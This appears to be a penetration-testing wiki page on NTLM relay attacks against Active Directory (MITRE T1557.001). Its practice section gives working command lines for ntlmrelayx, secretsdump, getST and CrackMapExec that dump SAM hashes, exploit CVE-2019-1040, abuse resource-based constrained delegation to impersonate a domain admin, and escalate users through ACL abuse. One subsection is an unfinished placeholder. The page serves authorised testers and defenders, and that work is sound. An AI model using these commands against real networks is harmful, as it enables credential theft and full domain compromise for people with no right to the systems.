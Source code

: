 ```yaml
---
description: MITRE ATT&CK™ Sub-technique T1557.001
---
```


# Relay

## Theory

After successfully [forcing a victim to authenticate](../forced-authentications/) with LM or NTLM to an attacker's server, the attacker can try to relay that authentication to targets of his choosing. Depending on the mitigations in place, he will be able to move laterally and escalate privileges within an Active Directory domain.

## Practice

The NTLM authentication messages are embedded in the packets of application protocols such as SMB, HTTP, MSSQL, SMTP, IMAP. The LM and NTLM authentication protocols are "application protocol-independent". It means one can relay LM or NTLM authentication messages over a certain protocol, say HTTP, over another, say SMB. That is called **cross-protocols LM/NTLM relay**. It also means the relays and attacks possible depend on the application protocol the authentication messages are embedded in.

[ntlmrelayx](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ntlmrelayx.py) \(Python\), [MultiRelay](https://github.com/lgandx/Responder/blob/master/tools/MultiRelay.py) \(Python\) and [Inveigh-Relay](https://github.com/Kevin-Robertson/Inveigh) \(Powershell\) are great tools for relaying NTLM authentications. Those tools setup relay clients and relay servers waiting for incoming authentications. Once the servers are up and ready, the tester can initiate a [forced authentication attack](../forced-authentications/).

{% hint style="warning" %}
When combining NTLM relay with Responder for [name poisoning](../forced-authentications/#llmnr-nbt-ns-mdns-name-poisoning), testers need to make sure that Responder's servers are deactivated, otherwise they will interfere with ntlmrelayx ones.

```text
sed -i 's/SMB = On/SMB = Off/g' /PATH/TO/Responder/Responder.conf
sed -i 's/HTTP = On/HTTP = Off/g' /PATH/TO/Responder/Responder.conf
```
{% endhint %}

{% tabs %}
{% tab title="Credentials theft" %}
The following command will try to relay the authentication over SMB and attempt to dump the hashes from the remote target’s SAM if the relayed victim has the right privileges.

```bash
ntlmrelayx.py -t smb://$TARGET
```
{% endtab %}

{% tab title="Credentials theft \(SOCKS\)" %}
The following command will try to relay the authentication over SMB and open a SOCKS proxy.

```bash
ntlmrelayx.py -tf targets.txt -socks
```

The attacker will be able to use secretsdump along with proxychains to dump hashes from the remote target's SAM, SYSTEM and SECURITY.

```bash
proxychains secretsdump.py -no-pass $DOMAIN/$USER@$TARGET
```
{% endtab %}

{% tab title="Kerberos delegation" %}
The following command will 

* try to relay the authentication over LDAPS, attempt to exploit CVE-2019-1040 \(a.k.a. Drop the MIC\) to "unsign" the NTLM messages \(`--remove-mic`\)
* abuse the default value \(10\) of `ms-DS-MachineAccountQuota` to create a domain machine account \(`--add-machine`\)
* and finally, [abuse Resource Based Kerberos Constrained Delegations \(RBCD\)](../abusing-kerberos/kerberos-delegations.md#resource-based-constrained-delegations-rbcd) to gain admin access to the relayed machine \(`--delegate-access`\).

```bash
ntlmrelayx.py -t ldaps://$DC_TARGET -smb2support --remove-mic --add-computer SHUTDOWN --delegate-access
```

If successful, the attacker will then be able to get a service ticket with the created domain machine account for the relayed victim and impersonate any account \(e.g. the domain admin\) on it.

```bash
getST.py -spn host/$RELAYED_VICTIM '$DOMAIN/$NEW_MACHINE_ACCOUNT$:$PASSWORD' -dc-ip $DOMAIN_CONTROLLER_IP -impersonate $USER_TO_IMPERSONATE
export KRB5CCNAME=$USER_TO_IMPERSONATE.ccache
secretsdump.py -k $RELAYED_VICTIM
```

{% hint style="info" %}
The `--add-computer` is optional. The computer account to give delegation rights to can be defined with the `--escalate-user` option.

```bash
ntlmrelayx.py -t ldap://$DC_TARGET -smb2support --remove-mic --escalate-user $ControlledComputerAccount --delegate-access
```
{% endhint %}
{% endtab %}

{% tab title="ACL abuse" %}
{% hint style="info" %}
This technique is usually combined with a [PushSubscription abuse \(a.k.a. PrivExchange\)](../forced-authentications/#pushsubscription-abuse-a-k-a-privexchange) to force an Exchange server to initiate an authentication, relay it to a domain controller and abuse the default high privileges of Exchange servers in AD domains \(`WriteDACL` over domain object, see [Abusing ACEs](../abusing-aces/)\) to escalate a domain user privileges \(`--escalate-user`\).
{% endhint %}

The following command will try to relay the authentication over LDAPS and escalate the privileges of a domain user by adding it to a privileged group \(`--escalate-user`\) if the relayed account has sufficient privileges.

```bash
ntlmrelayx.py -t ldaps://$DOMAIN_CONTROLLER --escalate-user SHUTDOWN
```
{% endtab %}
{% endtabs %}

The ntlmrelayx tool offers many features making it a very valuable asset when pentesting an Active Directory domain:

* It can be combined with mitm6 \(for [DHCPv6 + name poisoning](../forced-authentications/#ipv6-dns-poisoning)\) by enabling IPv6 support with the `-6` option.
* It has the ability to open SOCKS proxies for every new session after a successful relayed authentication. This allows testers to exploit those sessions later on with tools like [proxychains](https://github.com/haad/proxychains). This feature can be enabled with the `-socks` option.
* It supports SMB2. It can be enabled with the `-smb2support` option.
* It implements **CVE-2019-1040** with the `--remove-mic` option, usually needed when attempting "**unsigning cross-protocols NTLM relay attacks**" \(e.g. **SMB to LDAP/S\)**.
* It has the ability to attack multiple targets with the `-tf` option instead of `-t`.
* It has the ability to dump domain info and escalate user privileges when possible \(via [ACEs abuses](../abusing-aces/)\) with the `--escalate-user` option.
* It has the ability to operate an [RBCD Kerberos delegation](../abusing-kerberos/kerberos-delegations.md#resource-based-constrained-delegations-rbcd) attack with the `--delegate-access` option.
* It has the ability to relay connections for specific target users.
* It has the ability to relay a single connection \(SMB only for now\) to multiple targets.

{% hint style="info" %}
Thanks to [the recent "multi-relay" feature](https://www.secureauth.com/blog/what-old-new-again-relay-attack), another attacker machine/interface can be added to the targets to combine ntlmrelayx with Responder servers. The attackers will be able capture a ChallengeResponse \(i.e. LM or NTLM hash\) with a custom challenge on an interface/machine, while relaying on another.
{% endhint %}

The targets file used with the `-tf` option can contain the following

```bash
# User filter for SMB only (for now)
smb://DOMAIN\User@192.168.1.101
smb://User@192.168.1.101

# Domain name can be used instead of the IP address
ldaps://someserver.domain.lan
someserver.domain.lan
```

[CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec) \(Python\) has the ability to generate the list of possible targets for relay to SMB \(hosts with SMB signing disabled\).

```bash
crackmapexec smb --gen-relay-list targets.txt $SUBNET
```

### 🛠️ Drop The MIC \(CVE-2019-1040\)

//TODO

## References

{% embed url="https://byt3bl33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html" caption="" %}

{% embed url="https://en.hackndo.com/ntlm-relay/" caption="" %}

{% embed url="https://hunter2.gitbook.io/darthsidious/execution/responder-with-ntlm-relay-and-empire" caption="" %}

{% embed url="https://dirkjanm.io/abusing-exchange-one-api-call-away-from-domain-admin/" caption="" %}

{% embed url="https://dirkjanm.io/worst-of-both-worlds-ntlm-relaying-and-kerberos-delegation/" caption="" %}

{% embed url="http://davenport.sourceforge.net/ntlm.html" caption="" %}

